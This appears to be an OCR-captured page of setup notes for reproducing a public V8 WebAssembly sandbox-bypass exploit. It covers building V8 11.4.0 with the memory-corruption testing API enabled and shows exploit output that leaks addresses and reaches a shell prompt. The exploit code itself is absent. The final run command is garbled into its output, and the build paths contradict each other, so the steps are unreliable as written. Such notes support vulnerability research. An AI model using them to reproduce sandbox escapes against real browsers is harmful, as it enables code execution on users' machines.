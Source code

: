 
Code from https://github.com/theori-io/v8-sbx-bypass-wasm/tree/main


system prep

        sudo apt update
        sudo apt -y upgrade
        sudo apt -y install git build-essential pkg-config

get google tools

        git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
        export PATH=~/depot_tools:$PATH

get source

        cd ~
        fetch v8
        mv v8 v8-11-4-0
        cd v8-11-4-0
        git checkout f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c
        gclient sync
        cd v8/src

configure for build

        gn args out/x64.release
        
                is_component_build = false
                is_debug = false
                target_cpu = "x64"
                v8_enable_sandbox = true
                use_goma = false
                v8_enable_backtrace = true
                v8_enable_disassembler = true
                v8_enable_object_print = true
                v8_enable_verify_heap = true
                dcheck_always_on = false
                v8_expose_memory_corruption_api = true

build

        autoninja -C out/x64.release

Run

        ~/v8-11-4-0/out/x64-release/d8 e[+] instance_addr = 0x19c3d8

Result gives you a shell

                [+] tbl_addr = 0x4dc04
                [+] exported_func_addr = 0x19c55c
                [+] imported_function_targets = 0x4def1
                [+] rwx = 0x39e47ef46700
                [+] indirect_function_tables = 0x4df4d
                [+] indirect_function_table = 0x4df69
                $ 




        
